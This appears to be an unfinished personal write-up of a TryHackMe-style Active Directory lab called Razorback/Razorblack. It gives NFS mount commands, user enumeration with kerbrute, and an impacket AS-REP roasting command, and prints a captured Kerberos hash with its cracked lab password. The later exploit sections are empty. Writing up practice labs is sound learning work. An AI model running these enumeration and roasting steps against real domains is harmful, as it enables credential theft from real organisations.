 # Razorback Helped Through

Name: Razorback
Date:  /2022
Difficulty:  Medium
Description: These guys call themselves hackers. Can you show them who's the boss ??
Goals:  Chill out and have fun
Learnt:

## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](TryHackMe/Markdown/Razorblack/Screenshots/ping.png)

![](rpcclientdeadend.png)

![](2049mountage.png)

![](filtered.png)

[Newbie Tuesday](https://www.youtube.com/watch?v=sdxdSWpzF-M&t=970s)

Question-along:
- What ports are important: 445, 88, 3369 389, 636 
- AD requires DNS and hostname is important for kerberos
- crackmapexec
- null authentication
- nfs is file sharing

```bash
sudo showmount -e $ip
sudo mkdir /mnt/rb
sudo mount HAVEN-DC:/users /mnt/rb # DNS and AD
sudo su # to be root the travverse driectory 
umount $ip:/local/file/path		
```

Into the beast the first flag is here
![](mounting.png)

Exflitrating the spreadsheets full of names
![1000](theemployees.png)
sbradley.txt is the naming convention ; ljudmila vetrova AD admin 

![](learningkerbrute.png)
Have not used kerbrute in awhile

Pre-Authenication disabled in kerberos is timestamp to dc encrypted by the password hash of the user.
```bash
impacket-GetNPUsers -dc-ip HAVEN-DC -usersfile validusers.txt -format john raz0rblack.thm/
```
![](asreproasting.png)
```
$krb5asrep$twilliams@RAZ0RBLACK.THM:f46ff33ba011644211541533d0586e15$8fe6da6fb859d20d1e256ca394b0cbeab33f395874093f51a34b15031a305f6801724ac6a2f78c50f6d26933a036afd204198d4eb8efb5eaf5fd47197e9896fde4bb61b453906bd3d62b31893fab8a39874a21c0eb6dcc17c7606c2a7ec433339b8682e3a894a77794a6baf833153918b51133ad6ee8158a855a03bf563574a181f0060ee8373c39de0d675504339066c186a5a73aec3295d0443925cc82e97d1c25b19f219dc2896366c7954b955225c931e2534d1fd28a0fc8aeaceb7540a808704f80474586cd62b2696092765eedb2304cbe3df8cb4b91900d1428c4a0af0285c9ce19c2749e42d4666c53fca9d9 

roastpotatoes
```


![](cmetw.png)

![](weirdness.png)

![](ridbrute.png)

xyan1d3 is not pre-auth




## Exploit

## Foothold

## PrivEsc

      
